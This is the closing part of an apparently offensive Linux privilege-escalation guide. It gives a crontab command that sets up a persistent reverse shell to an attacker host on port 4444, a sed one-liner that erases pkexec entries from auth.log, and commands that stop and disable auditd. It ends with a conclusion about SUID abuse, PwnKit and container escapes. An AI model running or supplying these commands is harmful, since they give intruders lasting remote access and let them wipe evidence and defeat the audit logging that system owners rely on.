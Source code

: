 **Cron-based reverse shell:**

```bash
echo "@reboot /bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" | crontab -
```

### 4.2 Log Cleaning

**Remove entries from logs:**

```bash
sed -i '/pkexec/d' /var/log/auth.log
```

**Disable auditing:**

```bash
systemctl stop auditd
systemctl disable auditd
```

---

## **5. Conclusion**

Privilege escalation is a core component of any post-exploitation phase. This guide focused on exploiting commonly misconfigured binaries (SUID/SGID), kernel-level privilege escalation (PwnKit), and container misconfigurations that lead to full host compromise.
